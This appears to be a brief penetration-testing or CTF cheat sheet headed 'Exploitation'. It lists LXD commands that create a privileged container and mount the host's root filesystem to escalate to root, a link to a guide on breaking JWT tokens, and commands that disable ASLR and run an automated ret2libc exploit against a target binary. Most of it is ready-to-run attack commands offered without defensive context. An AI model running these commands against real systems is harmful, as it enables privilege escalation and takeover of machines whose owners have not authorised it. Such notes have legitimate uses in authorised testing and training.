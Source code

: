Exploitation
============

Run privesc container
```
lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
lxc image list
lxc init alpine privesc -c security.privileged=true
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
lxc start privesc
```

Breaking JWT tokens:
 - [Guide](https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens)

Exploit binary (only when target has NX Disabled)
```
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
python ./auto-ret2libc.py --stdin ../[[BINARY]]
```